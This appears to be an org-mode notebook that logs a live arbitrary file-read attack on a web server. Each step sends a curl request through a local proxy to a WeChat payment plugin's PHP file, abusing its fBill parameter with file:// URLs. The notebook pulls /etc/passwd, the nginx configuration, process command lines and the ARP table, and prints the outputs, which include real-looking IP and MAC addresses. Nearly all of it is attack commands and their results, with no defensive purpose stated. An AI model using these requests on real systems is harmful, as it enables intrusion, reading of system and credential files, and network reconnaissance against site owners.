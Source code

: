 * /etc/passwd
#+BEGIN_SRC sh :results scalar
curl -x 127.0.0.1:1087 'https://template.com/plugins/payment/weixin/lib/WxPay.tedatac.php?fBill=file:///etc/passwd&WxPayDataBase=test'
#+END_SRC

#+RESULTS:
#+begin_example
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
nginx:x:997:995:nginx user:/var/cache/nginx:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
vnstat:x:996:994:vnStat user:/var/lib/vnstat:/sbin/nologin
netdata:x:995:993:netdata:/var/lib/netdata:
#+end_example
* Nginx config
#+BEGIN_SRC sh :results scalar
curl -x 127.0.0.1:1087 'https://template.com/plugins/payment/weixin/lib/WxPay.tedatac.php?fBill=file:///etc/nginx/nginx.conf&WxPayDataBase=test'
#+END_SRC

#+RESULTS:
#+begin_example
user  apache;
worker_processes  auto;
worker_cpu_affinity auto;

error_log  /var/log/nginx/error.log warn;
pid        /var/run/nginx.pid;

worker_rlimit_nofile 1024000;

events {
    worker_connections  1024000;
}


http {
    include       /etc/nginx/mime.types;
    default_type  application/octet-stream;

    log_format  main  '$remote_addr - $remote_user $scheme [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log  /var/log/nginx/access.log  main;

    sendfile        on;
    #tcp_nopush     on;

    keepalive_timeout  65;

    #gzip  on;

# nginx php.ini
client_max_body_size 8M;
client_body_buffer_size  1M;
# gzip
gzip  on;
gzip_min_length 1k;
gzip_buffers 4 16k;
gzip_comp_level 9;
gzip_http_version 1.1;
gzip_proxied any;
gzip_vary on;
gzip_disable "msie6";
gzip_types text/plain application/javascript text/css application/json;


  proxy_connect_timeout 1000s;
  proxy_send_timeout 1000s;
  proxy_read_timeout 1000s;
  send_timeout 1000s;

proxy_buffer_size 512k;
proxy_buffers 8 512k;
proxy_busy_buffers_size 512k;
proxy_temp_file_write_size 512k;

    include /etc/nginx/conf.d/*.conf;
}
#+end_example
* Nginx Pid
#+BEGIN_SRC sh :results scalar
curl -x 127.0.0.1:1087 'https://template.com/plugins/payment/weixin/lib/WxPay.tedatac.php?fBill=file:///var/run/nginx.pid&WxPayDataBase=test'
#+END_SRC

#+RESULTS:
: 21302
* Nginx cmdline
#+BEGIN_SRC sh :results scalar
curl -x 127.0.0.1:1087 'https://template.com/plugins/payment/weixin/lib/WxPay.tedatac.php?fBill=file:///var/run/nginx.pid&WxPayDataBase=test'
curl -x 127.0.0.1:1087 'https://template.com/plugins/payment/weixin/lib/WxPay.tedatac.php?fBill=file:///proc/21302/cmdline&WxPayDataBase=test'
curl -x 127.0.0.1:1087 'https://template.com/plugins/payment/weixin/lib/WxPay.tedatac.php?fBill=file:///proc/9584/cmdline&WxPayDataBase=test'
#+END_SRC

#+RESULTS:
: 11913
: nginx: master process /usr/sbin/nginx -c /etc/nginx/nginx.conf
* php-fpm proc
#+BEGIN_SRC sh :results scalar
echo 'cmdline'
curl -x 127.0.0.1:1087 'https://template.com/plugins/payment/weixin/lib/WxPay.tedatac.php?fBill=file:///proc/self/cmdline&WxPayDataBase=test'
echo 'arp'
curl -x 127.0.0.1:1087 'https://template.com/plugins/payment/weixin/lib/WxPay.tedatac.php?fBill=file:///proc/self/net/arp&WxPayDataBase=test'
#+END_SRC

#+RESULTS:
#+begin_example
cmdline
php-fpm: pool www                                              arp
IP address       HW type     Flags       HW address            Mask     Device
45.253.67.170    0x1         0x2         00:8c:fa:16:02:ac     *        em1
192.168.0.211    0x1         0x2         78:45:c4:f8:7c:bc     *        em2
45.253.67.1      0x1         0x2         10:47:80:21:53:ac     *        em1
45.253.67.51     0x1         0x2         ac:75:1d:b1:0e:70     *        em1
192.168.0.235    0x1         0x2         84:8f:69:fd:5c:0f     *        em2
45.253.67.49     0x1         0x2         ac:75:1d:b1:0c:10     *        em1
192.168.0.238    0x1         0x2         78:45:c4:f8:e8:ee     *        em2
192.168.0.241    0x1         0x2         78:45:c4:f8:f0:68     *        em2
45.253.67.52     0x1         0x2         10:c1:72:98:11:c0     *        em1
45.253.67.82     0x1         0x2         00:8c:fa:03:b8:54     *        em1
#+end_example
* Admin
#+BEGIN_SRC sh :results scalar
curl -x 127.0.0.1:1087 'https://example.com/admin'
#+END_SRC

#+RESULTS:
#+begin_example
<html>
<head>
<meta http-equiv="content-type" content="text/html; charset=utf-8">
<title></title>
<meta name="viewport" content="width=device-width,height=device-height, initial-scale=1.0,maximum-scale=1.0,user-scalable=no">
</head>
<body>
<img src='http://example.com/example.png' width=100%>
</body>
</html>
#+end_example
